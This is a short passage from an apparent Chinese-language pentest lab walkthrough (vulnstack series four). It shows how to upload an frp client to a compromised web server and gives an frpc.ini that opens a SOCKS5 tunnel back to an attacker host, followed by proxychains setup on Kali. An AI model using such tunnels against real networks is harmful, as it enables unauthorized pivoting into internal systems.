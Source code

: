 

使用wget命令将frp客户端上传至Web，frpc.ini配置如下，启动命令：`frpc -c frpc.ini`

```
[common]
server_addr = 192.168.47.188
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5  
```

![image-20231211115246754](vulnstack靶场系列四/image-20231211115246754.png)



修改kali的`/etc/proxychain4.conf`文件

<img src="vulnstack靶场系列四/image-20231211165426183.png" alt="image-20231211165426183" style="zoom:67%;" />
